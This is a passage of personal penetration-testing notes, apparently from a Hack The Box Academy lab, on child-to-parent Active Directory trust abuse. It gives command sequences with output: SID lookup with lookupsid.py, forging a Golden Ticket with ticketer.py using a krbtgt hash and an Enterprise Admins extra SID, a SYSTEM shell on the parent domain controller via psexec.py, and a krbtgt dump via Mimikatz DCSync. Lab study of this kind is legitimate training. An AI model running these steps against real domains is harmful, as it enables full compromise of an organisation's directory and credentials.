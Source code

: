 perform SID brute forcing to find the SID of the child domain. In this command, whatever we specify for the IP address (the IP of the domain controller in the child domain) will become the target domain for a SID lookup. 
- step2: grab sid of child domain
```shell-session
$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"
pw:

[*] Domain SID is: S-1-5-21-2806153819-209893948-92287268
```

- step3: grab SID of enterprise admins in the parent domain by combining sid of domain + group rid
```shell
impacket-lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"

Password:
[*] Domain SID is: S-1-5-21-3842939050-3880317879-2865463114

519: INLANEFREIGHT\Enterprise Admins (SidTypeGroup)
```

becomes:
```
S-1-5-21-3842939050-3880317879-2865463114-519
```

- last step: forge ticket:
#### Constructing a Golden Ticket using ticketer.py

use [ticketer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py) from the Impacket toolkit to construct a Golden Ticket. This ticket will be valid to access resources in the child domain (specified by `-domain-sid`) and the parent domain (specified by `-extra-sid`).
```shell-session
$ ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
```

The ticket will be saved down to our system as a [credential cache (ccache)](https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html) file, which is a file used to hold Kerberos credentials. Setting the `KRB5CCNAME` environment variable tells the system to use this file for Kerberos authentication attempts.
```shell-session
$ export KRB5CCNAME=hacker.ccache 
```
#### Getting a SYSTEM shell using Impacket's psexec.py
```shell-session
$ psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation
C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> hostname
ACADEMY-EA-DC01
```
### From windows:
- step1: grab NTLM Hash of KRBTGT in child domain:
 `Obtaining the KRBTGT Account's NT Hash and child domain's sid using Mimikatz`
 ```powershell-session
mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt
```
![[Pasted image 20250727234723.png]]
from the output: copy the domain part of the SID and NTLM hash of krbtgt.
